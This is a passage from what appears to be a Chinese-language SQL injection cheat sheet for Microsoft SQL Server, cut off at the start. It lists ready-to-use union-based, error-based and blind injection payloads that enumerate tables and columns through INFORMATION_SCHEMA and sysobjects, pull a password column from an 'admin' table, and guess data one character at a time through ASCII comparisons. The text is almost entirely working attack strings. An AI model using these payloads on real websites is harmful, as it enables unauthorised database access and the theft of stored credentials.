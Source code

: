 ```
    ?id=1 and 1=2 union select  top 1 column_name ,2  from  information_schema.columns where table_name ='users'  and column_name not in ('uname')

6.获取数据
    ?id=1 and 1=2 union select top 1 uname,null from users

```

**2.2 SQLServer 报错注入**

```
1.获取表名
?id=4' and 1>(select top 1  TABLE_NAME from INFORMATION_SCHEMA.TABLES  where TABLE_NAME not in ('admin') )--
2.获取列名
?id=4' and 1>(select top 1 COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='admin' and column_name not in ('id')) --

3.获取数据
?id=4' and 1=(select top 1 pwd from admin) --

4.获取数据库信息
?id=1' and 1=(select @@version)--   //SQL Server 2000
?id=1' and 1=(select db_name())  //当前使用的数据库

```

**2.3 SQLServer 盲注**

```
1、猜表名

?id=1 and  (select count(*) from sysobjects where name in (select top 1 name from sysobjects where xtype='u') and len(name)=7)=1 --  //获取第一个表的长度7

?id=1 and (select count(*) from sysobjects where name in (select top 1 name from sysobjects where xtype='u') and ascii(substring(name,1,1))=116)=1 --    //截取第一个表第一位的ascii码

?id=1 and (select count(*) from sysobjects where name in (select top 1 name from sysobjects where xtype='u' and name not in ('users')) and ascii(substring(name,1,1))>115)=1 --//猜第二个表的第一位ASCII值
得到表名，进一步猜解字段

2、猜字段
id=1 and 
(select count(*) from syscolumns where name in (select top 1 name from syscolumns where id=(select id from sysobjects where name='users')) and ascii(substring(name,1,1))=117)=1 
//获取users表第一个字段的ASCII值

id=1 and 
(select count(*) from syscolumns where name in (select top 1 name from syscolumns where id=(select id from sysobjects where name='users') ) and name not in ('upass')  and ascii(substring(name,1,1))>90)=1  --
//获取user表第二个字段的第一位ASCII值

3、猜数据
id=1 and (ascii(substring((select top 1 uname from users),1,1)))=33 --  
//获取users表中uname字段的第一位ASCII值

```
